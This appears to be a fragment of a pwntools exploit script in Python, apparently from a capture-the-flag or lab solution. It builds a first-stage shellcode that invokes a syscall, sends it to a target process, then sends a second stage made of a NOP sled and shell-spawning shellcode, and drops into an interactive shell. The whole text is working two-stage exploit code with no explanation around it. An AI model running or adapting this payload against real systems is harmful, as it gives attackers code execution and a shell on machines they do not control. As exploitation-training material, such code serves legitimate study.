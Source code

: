 ```python
stage1 += zero_edi()
stage1 += big_edx()
stage1 += zero_rax()
stage1 += asm('syscall')

log.info('Throwing Stage 1 Shellcode (%i bytes)' % len(stage1))
p.sendline(stage1)
pause()

stage2 = asm(shellcraft.nop())*(len(stage1)+0x8*5)
stage2 += asm(shellcraft.sh())
log.info('Throwing Stage 2 Shellcode (%i bytes)' % len(stage2))
p.sendline(stage2)

p.interactive()
```



